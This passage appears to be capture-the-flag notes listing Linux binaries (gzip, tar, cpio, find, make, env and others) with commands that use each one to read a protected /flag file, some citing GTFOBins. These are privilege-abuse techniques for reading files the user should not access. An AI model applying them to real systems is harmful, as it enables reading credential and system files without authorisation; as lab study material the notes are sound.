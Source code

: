 Ctrl+X, Ctrl+F
/flag
```
9. nano
10. rev 
11. od
12. hd 
```
hd -f /flag
```
13. xxd
14. base32
15. base64
16. split
17. gzip
```
gzip -r /flag OR gzip -v /flag
gzip -d -c /flag.gz
```
18.  bzip2
```
bzip2 /flag
bzip2 -d -c /flag.bz2
```
19. zip
```
zip z /flag
ls -al z.zip // check if file is created
cat z.zip
```
20. tar
```
tar -cf archive.tar /flag
cat archive.tar
```
21. ar
```
ar r archive.a /flag
cat archive.a
```
22. cpio
```
ls /flag | cpio -ov >/home/hacker/archive.cpio
cat archive.cpio
```
23. genisoimage: https://gtfobins.github.io/gtfobins/genisoimage/
```
genisoimage -sort /flag
```
24. env
```
env /usr/bin/cat /flag
```
25. find
```
find /flag -exec "cat" {} \;
```
26. make : https://gtfobins.github.io/gtfobins/make/
```
make -s --eval=$'x:\n\t-'"cat /flag"
```
27. nice
```
nice cat /flag 
```
28. timeout
```
timeout 1 cat /flag
```
```